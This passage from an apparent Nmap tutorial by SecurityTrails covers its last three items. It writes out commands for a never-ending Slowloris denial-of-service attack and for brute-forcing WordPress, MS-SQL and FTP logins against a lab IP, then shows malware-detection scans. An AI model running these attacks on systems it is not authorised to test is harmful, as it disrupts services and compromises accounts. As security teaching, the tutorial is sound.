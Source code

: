 As you can see, in this vulnerability test we were able to detect one CVE (Slowloris DOS attack). 
 
13. Launching DOS with Nmap 
 
Nmap features never seem to end, and thanks to the NSE, that even allows us to launch DOS attacks against our network testings. 
 
In our previous example (#12) we found the host was vulnerable to Slowloris attack, and now we’ll try to exploit that vulnerability by launching a DOS attack in a forever loop: 
 
nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true 
 
14. Launching brute force attacks 
 
NSE is really fascinating – it contains scripts for everything you can imagine. See the next three examples of BFA against WordPress, MSSQL, and FTP server: 
 
WordPress brute force attack: 
 
nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.105 
 
Brute force attack against MS-SQL: 
 
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105 
 
FTP brute force attack: 
 
nmap --script ftp-brute -p 21 192.168.1.105 
 
15. Detecting malware infections on remote hosts 
 
Nmap is able to detect malware and backdoors by running extensive tests on a few popular OS services like on Identd, Proftpd, Vsftpd, IRC, SMB, and SMTP. It also has a module to check for popular malware signs inside remote servers and integrates Google’s Safe Browsing and VirusTotal databases as well. 
 
A common malware scan can be performed by using: 
 
nmap -sV --script=http-malware-host 192.168.1.105 
 
Or using Google’s Malware check: 
 
nmap -p80 --script http-google-malware infectedsite.com 
 
Output example: 
 
80/tcp openhttp 
|_http-google-malware.nse: Host is known for distributing malware. 
 
Nmap is one of the most complete and accurate port scanners used by infosec professionals today. 
With it, you can perform simple port scan tasks or use its powerful scripting engine to  
launch DOS attacks, detect malware or brute force testings on remote and local servers. 
 
Today we covered the top fifteen Nmap commands to scan remote hosts, but there’s a lot more 
to discover if you’re starting to use Nmap in your OSINT strategy. 
 
If you also need to map domains, IPs and discover DNS zones, try our SecurityTrails toolkit, 
 or grab a free API account today. 
